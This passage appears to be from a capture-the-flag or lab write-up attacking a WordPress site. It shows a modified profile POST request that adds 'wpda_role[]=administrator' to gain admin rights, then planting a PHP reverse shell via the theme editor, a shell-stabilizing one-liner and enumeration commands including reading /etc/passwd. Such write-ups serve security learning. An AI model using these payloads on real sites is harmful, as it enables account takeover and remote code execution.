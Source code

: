 ### Modified POST Data (with `wpda_role[]=administrator`):
```plaintext
_wpnonce=ddd142855f&_wp_http_referer=%2Fwordpress%2Fwp-admin%2Fprofile.php&from=profile&checkuser_id=2&color-nonce=bc3e321271&admin_color=fresh&admin_bar_front=1&first_name=bob&last_name=bob&nickname=bob&display_name=bob+bob&email=bob%40localhost.com&url=&description=hiiii&pass1=&pass2=&action=update&user_id=2&submit=Update+Profile&wpda_role[]=administrator
```

### Key Details:
- **`wpda_role[]=administrator`**: This parameter will attempt to elevate the user’s role to `administrator`.
- The rest of the POST data remains unchanged.

We got admin access!



## Reverse Shell

```python
Tools --> Theme File Editor -> Patterns --> modify a file with a reverse shell 
```

Reverse PHP Shell: https://github.com/pentestmonkey/php-reverse-shell

I modified a specific file and then navigated to the file after had created my listener. 


We got shell! 

Upgrading shell: 

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'; stty raw -echo; fg; reset; export SHELL=/bin/bash; export TERM=xterm-256color


# Fixes it 
stty rows 40 columns 100

```


Now that I've stabilized shell. It was time to investigate.  




Given we cannot use sudo -l for SUID permission to look for weaknesses via GTFO bins. I chose an alternative instead (https://delinea.com/blog/linux-privilege-escalation). This provided an alternative to finding SUIDs I could later investigate for misconfigurations. 


|                                                                                 |                                             |
| ------------------------------------------------------------------------------- | ------------------------------------------- |
| **Enumeration Commands**                                                        | **Description**                             |
| id                                                                              | print real and effective user and group IDs |
| whoami                                                                          | current user                                |
| hostname                                                                        | show or set the system's host name          |
| uname                                                                           | print system information                    |
| ps -ef                                                                          | report a snapshot of the current processes  |
| echo $PATH                                                                      | print environment PATH variable             |
| ifconfig                                                                        | configure a network interface               |
| cat /etc/passwd                                                                 | show passwd file contents                   |